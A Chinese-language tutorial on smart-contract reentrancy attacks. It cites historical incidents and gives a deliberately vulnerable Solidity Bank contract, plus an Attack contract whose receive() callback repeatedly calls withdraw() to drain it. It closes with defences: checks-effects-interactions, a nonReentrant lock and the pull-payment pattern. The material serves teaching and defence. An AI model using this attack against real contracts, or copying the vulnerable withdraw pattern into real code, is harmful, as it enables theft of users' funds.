

# 1. 重入攻击

介绍最常见的一种智能合约攻击-重入攻击，它曾导致以太坊分叉为 ETH 和 ETC（以太经典），并介绍如何避免它。

## 重入攻击

重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如 fallback 函数）循环调用合约，将合约中资产转走或铸造大量代币。

一些著名的重入攻击事件：

- 2016 年，The DAO 合约被重入攻击，黑客盗走了合约中的 3,600,000 枚 ETH，并导致以太坊分叉为 ETH 链和 ETC（以太经典）链。
- 2019 年，合成资产平台 Synthetix 遭受重入攻击，被盗 3,700,000 枚 sETH。
- 2020 年，借贷平台 Lendf.me 遭受重入攻击，被盗 $25,000,000。
- 2021 年，借贷平台 CREAM FINANCE 遭受重入攻击，被盗 $18,800,000。
- 2022 年，算法稳定币项目 Fei 遭受重入攻击，被盗 $80,000,000。

距离 The DAO 被重入攻击已经 6 年了，但每年还是会有几次因重入漏洞而损失千万美元的项目，因此理解这个漏洞非常重要。

## `0xAA`抢银行的故事

为了让大家更好理解，这里给大家讲一个"黑客`0xAA`抢银行"的故事。

以太坊银行的柜员都是机器人（Robot），由智能合约控制。当正常用户（User）来银行取钱时，它的服务流程：

1. 查询用户的 ETH 余额，如果大于 0，进行下一步。
2. 将用户的 ETH 余额从银行转给用户，并询问用户是否收到。
3. 将用户名下的余额更新为0。

一天黑客`0xAA`来到了银行，这是他和机器人柜员的对话：

1. 0xAA : 我要取钱，1 ETH。
2. Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？
3. 0xAA : 等等，我要取钱，1 ETH。
4. Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？
5. 0xAA : 等等，我要取钱，1 ETH。
6. Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？
7. 0xAA : 等等，我要取钱，1 ETH。
8. ...

最后，0xAA通过重入攻击的漏洞，把银行的资产搬空了，银行卒。



## 漏洞合约例子

### 银行合约

银行合约非常简单，包含1个状态变量`balanceOf`记录所有用户的以太坊余额；包含3个函数：

- `deposit()`：存款函数，将ETH存入银行合约，并更新用户的余额。
- `withdraw()`：提款函数，将调用者的余额转给它。具体步骤和上面故事中一样：查询余额，转账，更新余额。注意：这个函数有重入漏洞！
- `getBalance()`：获取银行合约里的ETH余额。

```js
contract Bank {
    mapping (address => uint256) public balanceOf;    // 余额mapping

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");
        // 转账 ether !!! 可能激活恶意合约的fallback/receive函数，有重入风险！
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

### 攻击合约

重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的`fallback`（回退）函数，从而造成循环调用的可能。Bank合约在`withdraw()`函数中存在ETH转账：

```js
(bool success, ) = msg.sender.call{value: balance}("");
```

假如黑客在攻击合约中的`fallback()`或`receive()`函数中重新调用了Bank合约的`withdraw()`函数，就会造成`0xAA`抢银行故事中的循环调用，不断让Bank合约转账给攻击者，最终将合约的ETH提空。

```js
receive() external payable {
    bank.withdraw();
}
```

下面我们看下攻击合约，它的逻辑非常简单，就是通过`receive()`回退函数循环调用Bank合约的`withdraw()`函数。它有1个状态变量bank用于记录Bank合约地址。它包含4个函数：

- 构造函数: 初始化Bank合约地址。
- `receive()`: 回调函数，在接收ETH时被触发，并再次调用Bank合约的withdraw()函数，循环提款。
- `attack()`：攻击函数，先Bank合约的`deposit()`函数存款，然后调用`withdraw()`发起第一次提款，之后Bank合约的`withdraw()`函数和攻击合约的`receive()`函数会循环调用，将Bank合约的ETH提空。
- `getBalance()`：获取攻击合约里的ETH余额。

```js
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## 预防办法

目前主要有两种办法来预防可能的重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

### 检查-影响-交互模式

检查-影响-交互模式强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。如果我们将Bank合约`withdraw()`函数中的更新余额提前到转账ETH之前，就可以修复漏洞：

```js
function withdraw() external {
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");
    // 检查-效果-交互模式（checks-effect-interaction）：先更新余额变化，再发送ETH
    // 重入攻击的时候，balanceOf[msg.sender]已经被更新为0了，不能通过上面的检查。
    balanceOf[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");
}
```

### 重入锁

重入锁是一种防止重入函数的修饰器（modifier），它包含一个默认为0的状态变量`_status`。被`nonReentrant`重入锁修饰的函数，在第一次调用时会检查`_status`是否为0，紧接着将`_status`的值改为1，调用结束后才会再改为0。这样，当攻击合约在调用结束前第二次的调用就会报错，重入攻击失败。

```js
uint256 private _status; // 重入锁

// 重入锁
modifier nonReentrant() {
    // 在第一次调用 nonReentrant 时，_status 将是 0
    require(_status == 0, "ReentrancyGuard: reentrant call");
    // 在此之后对 nonReentrant 的任何调用都将失败
    _status = 1;
    _;
    // 调用结束，将 _status 恢复为0
    _status = 0;
}
```

只需要用`nonReentrant`重入锁修饰`withdraw()`函数，就可以预防重入攻击了。

```js
// 用重入锁保护有漏洞的函数
function withdraw() external nonReentrant{
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");

    balanceOf[msg.sender] = 0;
}
```

此外，OpenZeppelin 也提倡遵循 PullPayment(拉取支付)模式以避免潜在的重入攻击。其原理是通过引入第三方(escrow)，将原先的“主动转账”分解为“转账者发起转账”加上“接受者主动拉取”。当想要发起一笔转账时，会通过`_asyncTransfer(address dest, uint256 amount)`将待转账金额存储到第三方合约中，从而避免因重入导致的自身资产损失。而当接受者想要接受转账时，需要主动调用`withdrawPayments(address payable payee)`进行资产的主动获取。
